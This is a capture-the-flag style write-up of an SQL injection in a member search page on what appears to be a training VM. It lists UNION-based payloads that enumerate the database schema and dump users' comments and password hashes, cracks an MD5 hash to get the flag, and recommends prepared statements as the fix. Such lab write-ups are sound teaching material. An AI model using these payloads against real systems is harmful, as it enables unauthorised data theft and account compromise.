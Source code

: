 # 07 - SQL Injection Member

## Reproduce

We found an SQL Injection in member search page: `http://192.168.1.19/?page=member`

- Get the database name: `1 AND 0=1 UNION SELECT 1, database()` 
===> `Member_Sql_Injection`

- Get the table name: `1 AND 0=1 UNION SELECT 1, TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = char(77,101,109,98,101,114,95,83,113,108,95,73,110,106,101,99,116,105,111,110)` 
===> `users`

- Get columns name: `1 AND 0=1 UNION SELECT 1, COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = char(77,101,109,98,101,114,95,83,113,108,95,73,110,106,101,99,116,105,111,110) AND TABLE_NAME = char(117,115,101,114,115)`
===> 
`
{
    'user_id',
    'first_name',
    'last_name',
    'town',
    'country',
    'planet',
    'Commentaire',
    'countersign'
}
`

- Let's list the `commentaire + countersign` of all the members :
`1 AND 0=1 UNION SELECT Commentaire,countersign FROM users`

In the comment we found this:
`Decrypt this password -> then lower all the char. Sh256 on it and it's good !`

In the countersign we found: `5ff9d0165b4f92b14994e5c685cdce28`

And that what we did :)
- Decode 5ff9d0165b4f92b14994e5c685cdce28 with MD5 ==> 'FortyTwo'
- Lowercase('FortyTwo') ==> 'fortytwo'
- Encode 'fortytwo' using Sha256 ==> Tadaaaaaa flag


## Explaination of the vurnability

SQL injection: is a code injection technique that might destroy your database.


## Fix 

- Use of Prepared Statements (with Parameterized Queries) for example in :
    - JAVA EE use: PreparedStatement() with bind variables.
    - PHP use: PDO (PHP Data Object) with strongly typed parameterized queries.
- Don't construct queries with user input whitout verifications.
